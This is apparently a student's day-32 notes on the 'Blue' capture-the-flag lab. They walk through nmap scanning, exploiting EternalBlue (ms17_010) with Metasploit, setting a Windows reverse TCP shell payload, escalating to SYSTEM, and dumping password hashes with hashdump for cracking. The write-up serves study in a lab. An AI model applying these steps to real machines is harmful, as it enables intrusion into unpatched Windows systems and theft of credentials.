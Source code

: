 # day 32 14th august 2025

# Blue

## recon

1. scan the network using `nmap -sV -O -A <target>` or `nmap -sV --script vuln <target machine>`
running nmap `--script vuln <target_IP>`  Checks for known CVEs. and in the end you will see what the machine is vuln to.
2. Scan will tell you about the os and you can try the most common vulnerabilities of that os or if you use -O -A this will give you what is missing in the os sometimes.

3. now that you know the problem you can search it. Let's take the most common one exploit/windows/smb/ms17_010_eternalblue . 
search `search ms smb`

## gain access

4. now that you know about the vuln use it.
5. set the required parameter and know them using `show options`
6. `set payload windows/x64/shell/reverse_tcp` no required
7. run
8. once in meterpreter background this shell ctrl+z.


## Escalate

9.  Once you background the shell use `sessions`.
10. then use `sessions -u <active target session no.>` if you manually loaded the payload.
11. use `getpid` to know your pid.
12. use `ps` to see all the pids.
13. if you are on low level authority shift to the system level.

## crack

14. Mostly we will work with meterpreter.
15. it is like using linux cmd.
16. want something search for it.
17. remember that you can only cd directories. And cat the files. Files will give you error on using cd.
18. `hashdump` for username and password hashes. Take those hash to online cracker or use jack if you have word list.


